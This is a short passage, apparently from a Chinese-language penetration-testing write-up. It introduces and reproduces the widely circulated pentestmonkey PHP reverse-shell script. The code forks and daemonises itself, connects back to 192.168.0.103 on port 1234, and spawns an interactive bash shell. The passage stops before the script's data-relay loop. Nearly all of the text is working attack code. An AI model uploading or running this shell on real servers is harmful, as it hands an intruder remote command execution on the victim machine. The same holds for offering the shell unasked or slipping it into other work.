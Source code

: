 补充下，这里的php反弹shell脚本为：

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.0.103';
$port = 1234;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

```